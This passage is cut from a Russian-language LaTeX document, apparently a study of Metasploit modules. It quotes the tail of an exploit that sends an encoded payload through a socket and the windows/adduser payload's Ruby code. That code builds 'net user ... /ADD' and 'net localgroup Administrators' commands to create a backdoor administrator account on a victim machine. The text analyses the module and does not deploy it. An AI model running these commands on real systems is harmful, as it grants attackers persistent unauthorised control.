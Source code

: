 \documentclass{article}
\begin{document}
\begin{itemize}
\begin{verbatim}
 	print_good("UID: #{r.strip}")
 	
 	s.put("nohup " + payload.encoded + " >/dev/null 2>&1")
 	handler(s)
 	end
 	\end{verbatim}
 	
 	
 	\item Рассмотрим payload - windows/adduser.
 	
 	Данный payload создает пользователя в системе windows, с заранее заданными настройками.
 	
 	Путь: \verb'/usr/share/metasploit-framework/modules/payload/singles/windows/adduser.rb'.
 	
 	Сначала прописаны опции: 
 	
 	\begin{verbatim}
 	register_options(
 	[
 	OptString.new('USER', [ true, "The username to create",     "metasploit" ]),
 	OptString.new('PASS', [ true, "The password for this user", "Metasploit$1" ]),
 	OptString.new('CUSTOM', [ false, "Custom group name to be used instead of default", '' ]),
 	OptBool.new('WMIC',	 [ true, "Use WMIC on the target to resolve administrators group", false ]),
 	], self.class)
 	register_advanced_options(
 	[
 	OptBool.new("COMPLEXITY", [ true, "Check password for complexity rules", true ]),
 	], self.class)
 	\end{verbatim}
 	Далее в зависимости от введных опций генерируется код который должен быть запущен на компьтере жертве в командной строке:
 	\begin{verbatim}
 	def command_string
 	user = datastore['USER'] || 'metasploit'
 	pass = datastore['PASS'] || ''
 	cust = datastore['CUSTOM'] || ''
 	wmic = datastore['WMIC']
 	complexity= datastore['COMPLEXITY']
 	if(pass.length > 14)
 	raise ArgumentError, "Password for the adduser payload must be 14 characters or less"
 	end
 	if complexity and pass !~ /\A^.*((?=.{8,})(?=.*[a-z])(?=.*[A-Z])(?=.*[\d\W])).*$/
 	raise ArgumentError, "Password: #{pass} doesn't meet complexity requirements and may cause issues"
 	end
 	
 	if not cust.empty?
 	print_status("Using custom group name #{cust}")
 	return "cmd.exe /c net user #{user} #{pass} /ADD && " +
 	"net localgroup \"#{cust}\" #{user} /ADD"
 	elsif wmic
 	print_status("Using WMIC to discover the administrative group name")
 	return "cmd.exe /c \"FOR /F \"usebackq tokens=2* skip=1 delims==\" " +
 	"%G IN (`wmic group where sid^='S-1-5-32-544' get name /Value`); do " +
 	"FOR /F \"usebackq tokens=1 delims==\" %X IN (`echo %G`); do " +
 	"net user #{user} #{pass} /ADD && " +
 	"net localgroup \"%X\" #{user} /ADD\""
 	else
 	return "cmd.exe /c net user #{user} #{pass} /ADD && " +
 	"net localgroup Administrators #{user} /ADD"
 	end
 	
 	end
 	\end{verbatim}
 	
 	
 	
 \end{itemize}
 
\end{document}
